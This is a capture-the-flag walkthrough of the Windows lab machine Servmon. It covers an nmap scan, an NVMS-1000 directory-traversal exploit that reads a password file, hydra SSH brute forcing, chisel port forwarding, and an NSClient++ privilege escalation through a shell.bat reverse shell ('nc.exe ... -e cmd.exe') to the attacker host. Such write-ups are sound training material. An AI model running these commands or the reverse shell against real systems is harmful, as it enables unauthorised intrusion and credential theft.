- Machine Name: Servmon
- Difficulty: Easy
- OS type: Windows

### Port Scanning - Service & Version Enumeration

```bash
# Nmap 7.94SVN scan initiated Sat Apr  5 07:54:47 2025 as: /usr/lib/nmap/nmap -sVC -p- --open -oN initial/nmap.out 10.10.10.184
RTTVAR has grown to over 2.3 seconds, decreasing to 2.0
RTTVAR has grown to over 2.3 seconds, decreasing to 2.0
RTTVAR has grown to over 2.3 seconds, decreasing to 2.0
RTTVAR has grown to over 2.3 seconds, decreasing to 2.0
Nmap scan report for 10.10.10.184
Host is up (0.35s latency).
Not shown: 65518 closed tcp ports (reset)
PORT      STATE SERVICE       VERSION
21/tcp    open  ftp           Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_02-28-22  07:35PM       <DIR>          Users
| ftp-syst: 
|_  SYST: Windows_NT
22/tcp    open  ssh           OpenSSH for_Windows_8.0 (protocol 2.0)
| ssh-hostkey: 
|   3072 c7:1a:f6:81:ca:17:78:d0:27:db:cd:46:2a:09:2b:54 (RSA)
|   256 3e:63:ef:3b:6e:3e:4a:90:f3:4c:02:e9:40:67:2e:42 (ECDSA)
|_  256 5a:48:c8:cd:39:78:21:29:ef:fb:ae:82:1d:03:ad:af (ED25519)
80/tcp    open  http
|_http-title: Site doesn't have a title (text/html).
| fingerprint-strings: 
|   GetRequest, HTTPOptions, RTSPRequest: 
|     HTTP/1.1 200 OK
|     Content-type: text/html
|     Content-Length: 340
|     Connection: close
|     AuthInfo: 
|     <!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN" "http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd">
|     <html xmlns="http://www.w3.org/1999/xhtml">
|     <head>
|     <title></title>
|     <script type="text/javascript">
|     window.location.href = "Pages/login.htm";
|     </script>
|     </head>
|     <body>
|     </body>
|     </html>
|   NULL: 
|     HTTP/1.1 408 Request Timeout
|     Content-type: text/html
|     Content-Length: 0
|     Connection: close
|_    AuthInfo:
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds?
5666/tcp  open  tcpwrapped
6063/tcp  open  tcpwrapped
6699/tcp  open  napster?
8443/tcp  open  ssl/https-alt
| http-title: NSClient++
|_Requested resource was /index.html
| fingerprint-strings: 
|   FourOhFourRequest, HTTPOptions, RTSPRequest, SIPOptions: 
|     HTTP/1.1 404
|     Content-Length: 18
|     Document not found
|   GetRequest: 
|     HTTP/1.1 302
|     Content-Length: 0
|     Location: /index.html
|     urday
|     workers
|_    jobs
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=localhost
| Not valid before: 2020-01-14T13:24:20
|_Not valid after:  2021-01-13T13:24:20
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49668/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
49670/tcp open  msrpc         Microsoft Windows RPC
2 services unrecognized despite returning data. If you know the service/version, please submit the following fingerprints at https://nmap.org/cgi-bin/submit.cgi?new-service :
==============NEXT SERVICE FINGERPRINT (SUBMIT INDIVIDUALLY)==============
SF-Port80-TCP:V=7.94SVN%I=7%D=4/5%Time=67F11A8A%P=x86_64-pc-linux-gnu%r(NU
SF:LL,6B,"HTTP/1\.1\x20408\x20Request\x20Timeout\r\nContent-type:\x20text/
SF:html\r\nContent-Length:\x200\r\nConnection:\x20close\r\nAuthInfo:\x20\r
SF:\n\r\n")%r(GetRequest,1B4,"HTTP/1\.1\x20200\x20OK\r\nContent-type:\x20t
SF:ext/html\r\nContent-Length:\x20340\r\nConnection:\x20close\r\nAuthInfo:
SF:\x20\r\n\r\n\xef\xbb\xbf<!DOCTYPE\x20html\x20PUBLIC\x20\"-//W3C//DTD\x2
SF:0XHTML\x201\.0\x20Transitional//EN\"\x20\"http://www\.w3\.org/TR/xhtml1
SF:/DTD/xhtml1-transitional\.dtd\">\r\n\r\n<html\x20xmlns=\"http://www\.w3
SF:\.org/1999/xhtml\">\r\n<head>\r\n\x20\x20\x20\x20<title></title>\r\n\x2
SF:0\x20\x20\x20<script\x20type=\"text/javascript\">\r\n\x20\x20\x20\x20\x
SF:20\x20\x20\x20window\.location\.href\x20=\x20\"Pages/login\.htm\";\r\n\
SF:x20\x20\x20\x20</script>\r\n</head>\r\n<body>\r\n</body>\r\n</html>\r\n
SF:")%r(HTTPOptions,1B4,"HTTP/1\.1\x20200\x20OK\r\nContent-type:\x20text/h
SF:tml\r\nContent-Length:\x20340\r\nConnection:\x20close\r\nAuthInfo:\x20\
SF:r\n\r\n\xef\xbb\xbf<!DOCTYPE\x20html\x20PUBLIC\x20\"-//W3C//DTD\x20XHTM
SF:L\x201\.0\x20Transitional//EN\"\x20\"http://www\.w3\.org/TR/xhtml1/DTD/
SF:xhtml1-transitional\.dtd\">\r\n\r\n<html\x20xmlns=\"http://www\.w3\.org
SF:/1999/xhtml\">\r\n<head>\r\n\x20\x20\x20\x20<title></title>\r\n\x20\x20
SF:\x20\x20<script\x20type=\"text/javascript\">\r\n\x20\x20\x20\x20\x20\x2
SF:0\x20\x20window\.location\.href\x20=\x20\"Pages/login\.htm\";\r\n\x20\x
SF:20\x20\x20</script>\r\n</head>\r\n<body>\r\n</body>\r\n</html>\r\n")%r(
SF:RTSPRequest,1B4,"HTTP/1\.1\x20200\x20OK\r\nContent-type:\x20text/html\r
SF:\nContent-Length:\x20340\r\nConnection:\x20close\r\nAuthInfo:\x20\r\n\r
SF:\n\xef\xbb\xbf<!DOCTYPE\x20html\x20PUBLIC\x20\"-//W3C//DTD\x20XHTML\x20
SF:1\.0\x20Transitional//EN\"\x20\"http://www\.w3\.org/TR/xhtml1/DTD/xhtml
SF:1-transitional\.dtd\">\r\n\r\n<html\x20xmlns=\"http://www\.w3\.org/1999
SF:/xhtml\">\r\n<head>\r\n\x20\x20\x20\x20<title></title>\r\n\x20\x20\x20\
SF:x20<script\x20type=\"text/javascript\">\r\n\x20\x20\x20\x20\x20\x20\x20
SF:\x20window\.location\.href\x20=\x20\"Pages/login\.htm\";\r\n\x20\x20\x2
SF:0\x20</script>\r\n</head>\r\n<body>\r\n</body>\r\n</html>\r\n");
==============NEXT SERVICE FINGERPRINT (SUBMIT INDIVIDUALLY)==============
SF-Port8443-TCP:V=7.94SVN%T=SSL%I=7%D=4/5%Time=67F11A94%P=x86_64-pc-linux-
SF:gnu%r(GetRequest,74,"HTTP/1\.1\x20302\r\nContent-Length:\x200\r\nLocati
SF:on:\x20/index\.html\r\n\r\ni\0c\0\x20\0F\0a\0l\0s\0e\0\0\0\0\0\0\0urday
SF:\0\0\x12\x02\x18\0\x1aC\n\x07workers\x12\n\n\x04jobs\x12\x02\x18\n\x12\
SF:x0f")%r(HTTPOptions,36,"HTTP/1\.1\x20404\r\nContent-Length:\x2018\r\n\r
SF:\nDocument\x20not\x20found")%r(FourOhFourRequest,36,"HTTP/1\.1\x20404\r
SF:\nContent-Length:\x2018\r\n\r\nDocument\x20not\x20found")%r(RTSPRequest
SF:,36,"HTTP/1\.1\x20404\r\nContent-Length:\x2018\r\n\r\nDocument\x20not\x
SF:20found")%r(SIPOptions,36,"HTTP/1\.1\x20404\r\nContent-Length:\x2018\r\
SF:n\r\nDocument\x20not\x20found");
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2025-04-05T11:59:01
|_  start_date: N/A
|_clock-skew: -1s
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Apr  5 07:59:23 2025 -- 1 IP address (1 host up) scanned in 276.93 seconds
```

## Enumeration

### Port 80/HTTP

let’s start our enumeration from port 80, open website in browser



we found the Directory traversal vulnerability, let’s use exploit from github and run https://github.com/AleDiBen/NVMS1000-Exploit/

```bash
python3 nvms.py 10.10.10.184 Windows/win.ini win.ini
```



Success! but we don’t have anything yet to chain this vulnerability to gain initial access on machine

### Port 8443/HTTPS

port 8443 is running NSClient++, but however we are not able to access any feature or click any tabs, strange, let’s move to another service



in firefox site was not working, i tried to open it in chromium and it worked



ohh it says we are not allowed

### Port 21/FTP

as the Anonymous login is enabled and nmap found directory **Users** which seems interesting

```bash
ftp 10.10.10.184
```



cd into users and we found another 2 directories Nadine and Nathan

we found Users/Nadine/Confidential.txt file, let’s download it



we found another file Users/Nathan/NOTES to do.txt, let’s download it as well



let’s view the both files



now we can see that the Nadine has forgot the Passwords.txt file in Nathan’s desktop and in to-do list Nathan still don’t add this file into secure folder, let’s use directory traversal vulnerability and grab the juicy passwords.txt file

also now we understand why we are not able to access the NSClient++ the user has lock down it’s access.

```bash
python3 nvms.py 10.10.10.184 Users/Nathan/Desktop/Passwords.txt password.txt
```



Bingo! super strong passwords but not the super secure loction 😈

it’s only password list, let’s bruteforce it on SSH for both users

```bash
hydra -L users.txt -P password.txt ssh://10.10.10.184
```



```bash
ssh Nadine@10.10.10.184
```



user.txt at Desktop of Nadine User

## PrivEsc

Let’s start our enumeration to hunt the root.txt from Administrator’s pocket

`whoami /priv` No special privileges 

not found any interesting directories in C:\ drive

let’s check Program Files and Program Files (x86)



why this service is present in this machine, let’s look at the privesc exploit fro **NSClient++** https://www.exploit-db.com/exploits/46802

Great! this is our privesc attack vector, let’s follow the steps from exploit

1. get the administrator password from `c:\program files\nsclient++\nsclient.ini` 



password= ew2x6SsGTxjRwXOT

also it says the allowed hosts are only 127.0.0.1 that’s why we are not able to access it, we need to do port forwarding using chisel

1. Download nc.exe and shell.bat to c:\temp from attacking machine

→ shell.bat

```vbnet
@echo off
c:\temp\nc.exe 10.10.14.14 443 -e cmd.exe
```

transfer the chisel.exe to taeget machine, run below command on kali to start chisel server on port 5000

```vbnet
chisel server --reverse --port 5000
```

run below command to target machine

```vbnet
chisel.exe client 10.10.14.14:5000 R:8443:127.0.0.1:8443
```



let’s open the site on 127.0.0.1:8443



1. after logining-in go to **Settings>External Scripts>Scripts > Add Simple Script**



```
4. Setup listener on attacking machine
	nc -nlvvp 443

5. Add script foobar to call evil.bat and save settings
- Settings > External Scripts > Scripts
- Add New
	- foobar
		command = c:\temp\shell.bat

```

5. Add script foobar to call evil.bat and save settings
- Settings > External Scripts > Scripts
- Add New
	- foobar
		command = c:\temp\shell.bat



after that restart the computer from **Control > Restart**



Boom! we got shell as NT Authority\SYSTEM!!

